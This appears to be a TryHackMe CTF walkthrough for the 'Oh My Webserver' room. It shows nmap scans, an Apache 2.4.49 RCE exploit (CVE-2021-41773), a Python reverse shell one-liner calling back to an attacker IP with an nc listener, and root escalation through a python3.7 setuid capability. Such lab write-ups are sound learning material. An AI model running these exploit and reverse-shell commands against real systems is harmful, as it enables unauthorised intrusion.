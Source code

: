 ```yaml
---
title: Oh My Webserver
date: 2023-03-02 02:47:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [web, apache, CVE-2021-41773, linux, RCE, getcap]
published: true
---
```


## Enumeration

### nmap

Initial Scans

```shell
sudo nmap 10.10.200.169 -vvv -p- -T5
sudo nmap -p22,80 10.10.200.169 -vvv -sC -sV -O
```

Response

```shell
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
|_http-favicon: Unknown favicon MD5: 02FD5D10B62C7BC5AD03F8B0F105323C
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
```

## Webserver

The server is running Apache2.4.49.

Using `searchsploit` we can find a possible CVE-2021-21773.

```shell
┌──(oskar㉿kali)-[~/Downloads]
└─$ searchsploit -m multiple/webapps/50383.sh
  Exploit: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50383
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50383.sh
    Codes: CVE-2021-41773
 Verified: True
File Type: ASCII text
Copied to: /home/oskar/Downloads/50383.sh
```

### CVE-2021-41773 RCE

- `https://github.com/thehackersbrain/CVE-2021-41773`

```shell
python3 exploit.py -t ohmywebserver.thm 
--------------------------------------------------------
|                Apache2 2.4.49 - Exploit              |
--------------------------------------------------------
>>> whoami
daemon
```

can try to get a reverse shell

```shell
export RHOST="10.2.3.64";export RPORT=6999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

```shell
nc -lvnp 6999
```

## User Privilege Escalation

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

Running `getcap -r / 2>/dev/null` shows that python3.7 has its capsetuid+ep. This mean we can use python to set our userid to root

```shell
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we have a root shell we can check /root/user.txt for the user flag.

## Root Privilege Escalation

have to come back to this later :(
